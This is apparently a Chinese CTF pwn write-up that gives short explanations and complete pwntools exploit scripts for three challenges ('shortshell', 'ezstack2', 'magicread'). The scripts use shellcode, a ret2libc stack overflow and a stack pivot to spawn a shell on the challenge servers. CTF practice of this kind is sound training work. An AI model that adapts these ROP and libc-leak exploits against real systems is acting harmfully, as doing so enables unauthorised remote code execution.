

## <font style="color:#D22D8D;">shortshell</font>


打 5 个字节指令跳转即可。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote('challenge.yuanloo.com',46794)
payload = b'\x58\x04\x0b\xff\xe0'
p.send(payload)
p.interactive()
```

## <font style="color:#D22D8D;">ezstack2</font>


stack() 函数有栈溢出。



直接打 ret2libc 就行了，libc 在线找，libc6_2.31-0ubuntu9.9_amd64 就可以。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./ezstack2"
elf = ELF(banary)
p = remote("challenge.yuanloo.com",23816)
func = 0x400739
pop_rdi = 0x400823
leave_ret = 0x4007B3
ret = 0x40056e
system = elf.sym["system"]
bss = elf.bss(0x700)
p.recvuntil(b'good stack')
pay = b'a'*0x30 + p64(bss) + p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.sym["puts"]) + p64(func)
p.sendline(pay)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
print(hex(puts_addr))
libc = ELF('./libc.so')
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh').__next__()
print(hex(libc_base))
pause()
payload = b'a'*0x38 + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```


## <font style="color:#D22D8D;">magicread</font>
给了 libc，一次 read，栈迁移。


```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./pwn"
elf = ELF(banary)
libc = ELF("./libc-2.23.so")
p = remote('challenge.yuanloo.com',49287)
pop_rdi = 0x400723
ret = 0x4004c6
p.recvuntil(b"just read")
pay = b'a'*0x40 + p64(elf.bss(0x500)) + p64(0x400675)
p.send(pay)
rop = p64(elf.bss(0x600)) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400675) + p64(0x400691)
rop = rop.ljust(0x40, b'a') + p64(elf.bss(0x500)-0x40) + p64(0x400691)
p.send(rop)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
pause()
libc_base = puts_addr - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh"))
payload =  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x40, b'a') + p64(elf.bss(0x600)-0x48) + p64(0x400691)
p.sendline(payload)
p.interactive()
```

